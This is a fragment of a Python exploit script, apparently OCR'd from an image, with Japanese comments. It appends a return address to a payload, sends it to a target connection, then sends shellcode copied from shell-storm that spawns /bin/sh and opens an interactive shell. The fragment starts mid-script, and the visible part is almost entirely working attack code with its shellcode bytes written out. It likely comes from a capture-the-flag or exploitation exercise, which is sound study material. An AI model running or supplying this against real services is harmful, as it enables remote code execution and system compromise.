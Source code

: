 ```#!/usr/bin/python
payload += ret(0x00600000)+'\n'
r.write(payload)
r.read()

# /bin/shを立ち上げるシェルコード
# 引用元：http://shell-storm.org/shellcode/files/shellcode-806.php
# 便利な世の中すなぁ。
shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7"
shellcode += "\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
r.write(shellcode)
r.interactive()
r.close()
```
